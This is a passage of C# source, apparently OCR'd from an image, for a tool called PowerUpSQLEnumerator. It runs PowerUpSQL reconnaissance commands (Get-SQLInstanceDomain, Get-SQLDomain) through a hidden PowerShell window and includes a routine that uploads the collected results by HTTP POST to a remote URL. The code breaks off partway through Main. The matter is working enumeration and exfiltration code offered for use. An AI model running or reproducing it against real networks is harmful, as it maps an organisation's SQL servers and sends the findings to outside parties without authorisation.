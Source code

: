```csharp
using System;
using System.IO;
using System.Net;
using System.Text;
using System.Diagnostics;

class PowerUpSQLEnumerator
{
    static string RunPowerShellCommand(string command)
    {
        var process = new Process
        {
            StartInfo = new ProcessStartInfo
            {
                FileName = "powershell.exe",
                Arguments = $"-Command \"{command}\"",
                RedirectStandardOutput = true,
                UseShellExecute = false,
                CreateNoWindow = true
            }
        };
        process.Start();
        string output = process.StandardOutput.ReadToEnd();
        process.WaitForExit();
        return output;
    }

    static void SendPostRequest(string url, string data, string filename)
    {
        string boundary = "---------------------------" + DateTime.Now.Ticks.ToString("x");
        HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url);
        request.ContentType = "multipart/form-data; boundary=" + boundary;
        request.Method = "POST";

        using (var requestStream = request.GetRequestStream())
        using (StreamWriter writer = new StreamWriter(requestStream))
        {
            writer.Write("--" + boundary + "\r\n");
            writer.Write("Content-Disposition: form-data; name=\"file\"; filename=\"" + filename + "\"\r\n");
            writer.Write("Content-Type: text/markdown\r\n\r\n");
            writer.Write(data + "\r\n");
            writer.Write("--" + boundary + "--\r\n");
        }

        using (HttpWebResponse response = (HttpWebResponse)request.GetResponse())
        using (StreamReader reader = new StreamReader(response.GetResponseStream()))
        {
            string result = reader.ReadToEnd();
            Console.WriteLine(result);
        }
    }

    static void Main(string[] args)
    {
        string url = args.Length > 0 ? args[0] : "http://default-url.com";
        string results = "";

        // Run PowerUpSQL PowerShell Commands
        results += "# SQL Instance Domain\n";
        results += "```\n" + RunPowerShellCommand("Get-SQLInstanceDomain") + "\n```\n";
        results += "# SQL Domain\n";
        results += "```\n" + RunPowerShellCommand("Get-SQLDomain") + "\n```\n";
```